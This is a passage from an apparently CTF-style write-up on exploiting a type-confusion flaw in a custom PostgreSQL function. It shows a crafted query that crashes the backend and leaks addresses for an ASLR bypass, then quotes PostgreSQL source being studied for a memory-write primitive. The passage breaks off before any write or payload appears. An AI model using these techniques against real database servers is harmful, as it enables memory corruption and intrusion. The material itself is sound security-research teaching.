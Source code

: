 `varlena` is a struct used for representing *toastable* types. `bpchar` is not, so clearly this is a problem here. Now is the time for...

## Exploitation

At this point there is no doubt that we can do *something* with fake `varlena` struct, but we don't know any memory addresses that `postgres` is using. Turns out that this was simpler than we thought. It is enough to crash `postgres` to get a nice stack trace:

```c
postgres=> select bpchar_sum('1', '           AABBCCDD');
ERROR:  	/lib/x86_64-linux-gnu/libc.so.6(+0x1529a0) [0x7f4d470719a0]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(text_to_cstring+0x58) [0x556a61708228]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(varchar_sum+0x39) [0x556a617052f9]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x24ea80) [0x556a614cca80]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(evaluate_expr+0x7a) [0x556a6157ca8a]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x2fec97) [0x556a6157cc97]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x2ff814) [0x556a6157d814]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(expression_tree_mutator+0xc3) [0x556a61518933]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(expression_tree_mutator+0x293) [0x556a61518b03]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(eval_const_expressions+0x38) [0x556a6157e938]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x2e8d28) [0x556a61566d28]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(subquery_planner+0x4d5) [0x556a6156d1c5]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(standard_planner+0x103) [0x556a6156e7e3]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(pg_plan_query+0x28) [0x556a6161c288]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(pg_plan_queries+0x45) [0x556a6161c375]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x39e60d) [0x556a6161c60d]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(PostgresMain+0x1785) [0x556a6161e335]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x32b3e2) [0x556a615a93e2]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(PostmasterMain+0xc91) [0x556a615aa301]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(main+0x483) [0x556a6133e6d3]
	/lib/x86_64-linux-gnu/libc.so.6(+0x271ca) [0x7f4d46f461ca]
	/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0x85) [0x7f4d46f46285]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(_start+0x21) [0x556a6133e791]
```

Good news is that connection wasn't closed, so when we execute next query the addresses will stay the same. ASLR leak? Done. Now is the harder part - memory write.

Diving into a new, extensive codebase is no easy task. Our focus shifted towards functions related to `varlena`. It is even worse, a lot of complicated C macros are on our way. However, we encountered the complexity of numerous C macros. Undeterred, we delved into `pg_detoast_datum` and its callable functions. Among them, `heap_tuple_untoast_attr` emerged as an initial candidate, appearing to parse our data and return freshly allocated memory filled with parsed data. We analyzed almost every branch that was doing memory allocation - nothing fancy. However, one branch caught our attention, it calls another parse function on our data - `heap_tuple_fetch_attr`. It has very interesting branch inside:

```c
	else if (VARATT_IS_EXTERNAL_EXPANDED(attr))
	{
		/*
		 * This is an expanded-object pointer --- get flat format
		 */
		ExpandedObjectHeader *eoh;
		Size		resultsize;

		eoh = DatumGetEOHP(PointerGetDatum(attr));
		resultsize = EOH_get_flat_size(eoh);
		result = (struct varlena *) palloc(resultsize);
		EOH_flatten_into(eoh, (void *) result, resultsize);
	}
```
